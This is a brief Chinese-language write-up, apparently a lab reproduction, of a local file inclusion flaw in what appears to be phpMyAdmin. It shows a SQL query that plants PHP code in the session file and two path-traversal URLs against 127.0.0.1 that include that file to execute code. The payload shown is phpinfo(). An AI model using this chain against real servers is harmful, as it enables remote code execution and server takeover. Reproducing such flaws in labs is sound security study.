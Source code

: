 这个基本是最简单的思路，P牛出品，比属精品

首先先执一个sql语句（写上你要执行的php代码）

```
select '<?php phpinfo(); ?>'
```

然后包含session文件

```
http://127.0.0.1:8080/index.php?target=db_sql.php?/../../../../../../../../tmp/sess_f34d823b1d617613d799166ac381b720
```

或者

```
http://127.0.0.1:8080/index.php?target=db_sql.php?/../../../../../../../../tmp/tmp/sess_f34d823b1d617613d799166ac381b720
```



![1566798007400](images\1566798007400.png)

即可执行php代码

session文件名可以在cookie里面找到

![1566798295510](images\1566798295510.png)
